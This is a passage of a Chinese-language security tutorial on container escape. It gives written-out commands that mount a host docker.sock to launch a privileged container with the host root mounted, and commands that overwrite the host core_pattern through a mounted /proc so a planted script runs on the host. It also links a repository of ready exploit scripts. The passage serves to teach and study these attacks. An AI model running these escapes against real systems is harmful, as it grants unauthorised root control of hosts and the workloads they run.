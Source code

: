 a. 存在于 Serverless 的前置公共容器内

b. 存在于每个节点的日志容器内

如果你已经获取了此类容器的 full tty shell, 你可以用类似下述的命令创建一个通往母机的shell。

./bin/docker -H unix:///tmp/rootfs/var/run/docker.sock run -d -it --rm --name rshell -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest

如果想现在直接尝试此类逃逸利用的魅力，不妨可以试试 Google Cloud IDE 天然自带的容器逃逸场景，拥有Google账号可以直接点击下面的链接获取容器环境和利用代码，直接执行利用代码 try\_google\_cloud/host\_root.sh 再 chroot 到 /rootfs 你就可以获取一个完整的宿主机shell：  

https://ssh.cloud.google.com/cloudshell/editor?cloudshell\_git\_repo=https://github.com/neargle/cloud\_native\_security\_test\_case.git

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

当然容器内部不一定有条件安装或运行 docker client，一般获取的容器shell其容器镜像是受限且不完整的，也不一定能安装新的程序，即使是用 pip 或 npm 安装第三方依赖包也很困难。

此时基于golang编写简易的利用程序，利用交叉编译编译成无需依赖的单独bin文件下载到容器内执行就是经常使用的方法了。

**5.4.2 攻击挂载了主机 /proc 目录的容器**

另一个比较有趣的场景就是挂载了主机 /proc 目录的容器，在历史的攻防演练中当我们遇到挂载了主机 /proc 目录的容器，一般都会有其它可以逃逸的特性，如 sys\_ptrace 或者 sys\_admin 等，但是其实挂载了主机 /proc 目录这个设置本身，就是一个可以逃逸在宿主机执行命令的特性。

我们可以简单的执行以下命令创建一个具有该配置的容器并获得其shell：

docker run -v /proc:/host\_proc --rm -it ubuntu bash

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这里逃逸并在外部执行命令的方式主要是利用了 linux 的 /proc/sys/kernel/core\_pattern 文件。

a. 首先我们需要利用在 release\_agent 中提及的方法从 mount 信息中找出宿主机内对应当前容器内部文件结构的路径。

sed -n 's/.\*\\perdir=\\(\[^,\]\*\\).\*/\\1/p' /etc/mtab

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

b. 此时我们在容器内的 /exp.sh 就对应了宿主机的 /var/lib/docker/overlay2/a1a1e60a9967d6497f22f5df21b185708403e2af22eab44cfc2de05ff8ae115f/diff/exp.sh 文件。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

c. 因为宿主机内的 /proc 文件被挂载到了容器内的 /host\_proc 目录，所以我们修改 /host\_proc/sys/kernel/core\_pattern 文件以达到修改宿主机 /proc/sys/kernel/core\_pattern 的目的。

echo -e

"|/var/lib/docker/overlay2/a1a1e60a9967d6497f22f5df21b185708403e2af22eab44cfc2de05ff8ae115f/diff/exp.sh \\rcore       " > /host\_proc/sys/kernel/core\_pattern

d. 此时我们还需要一个程序在容器里执行并触发 segmentation fault 使植入的 payload 即exp.sh 在宿主机执行。

这里我们参考了 https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan/#4-2-procfs- 里的 c 语言代码和 CDK-TEAM/CDK 里面的 GO 语言代码：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
